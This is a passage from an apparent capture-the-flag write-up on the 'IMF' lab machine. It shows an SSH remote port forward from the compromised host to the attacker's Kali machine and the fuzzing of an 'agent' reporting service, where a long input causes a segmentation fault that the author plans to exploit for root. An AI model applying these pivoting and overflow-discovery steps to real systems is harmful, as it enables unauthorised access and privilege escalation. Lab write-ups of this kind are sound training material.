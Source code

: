 ```console
Enter selection: 0
Exiting...
Connection closed by foreign host.
www-data@imf:/tmp$
```

In order to be able to interact with the agent service locally on the attacking machine, I preformed remote port forwarding.

```console
www-data@imf:/tmp$ ssh -R 7788:127.0.0.1:7788 s4rgaz@172.16.178.1
```

Listing the services on the attacking machine, it is observed that port 7788 is listening for incoming connections.

```console
root@kali:~# ss -antl | grep 7788
LISTEN 0      128        127.0.0.1:7788      0.0.0.0:*
LISTEN 0      128            [::1]:7788         [::]:*
```

In the **Submit Report** option I identified that entering a large number of characters a segmentation fault is triggered, as this service is running as root is possible exploit it to gain root privileges.

```console
root@kali:~# ./agent
  ___ __  __ ___
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 48093572
Login Validated
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
0. Exit
Enter selection: 3

Enter report update: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Report: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Submitted for review.
zsh: segmentation fault  ./agent
```
